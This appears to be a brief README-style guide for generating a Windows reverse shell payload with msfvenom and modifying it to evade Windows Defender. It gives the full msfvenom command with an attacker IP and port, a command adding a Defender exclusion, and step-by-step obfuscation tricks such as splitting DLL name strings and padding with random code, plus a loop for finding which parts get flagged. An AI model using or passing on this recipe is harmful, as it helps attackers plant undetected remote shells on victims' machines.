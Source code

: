 # Steps

Have a Windows10 VM with Defender activated with
an exclusion on an SMB share where we can easily pass files
without detection enabled.
Disable "Tamper Protection" from GUI.

Set-MpPreference -ExclusionPath "C:\path\to\SMB\Share\dir"


1. generate the payload you want with msfvenom,
   rc4 encrypted work nicely for the purpose.

    msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=172.28.128.1 \
    LPORT=8080 \
    EXITFUNC=thread \
    RC4PASSWORD=PutAPasswordHere \
    -f psh-net > shell45.ps1

2. Test this with AV completely disabled just to check if it works.
3. Now this payload would be detected easily. So we should modify it.
    Follow the following steps:
    1. modify all the strings "kernel32.dll" or "system.dll" 
       to be split such as "k" + "er" + "n"...
    2. Add random functions from code found online
    3. Split the payload in many small strings
       the concatenate the strings
    4. Add more random code

3. Try the malware without AV activated, to check if the payload is working
   after the modifications. If it works.
   Let's try to check if it gets detected.
   If this happens, we should follow the split methodology. And see on which files
   the AV flags.


Note that it happened that I had to remove the "system32.dll" loading as a library.


Now how to modify the payload may change based on the format of the payload,
in general we prefer to have the source and not an executable, since
modifying executables becomes much more complicated.

To understand how to modify a C payload generated by msfvenom when using "-f c > mypayload.c"
look here:
https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/
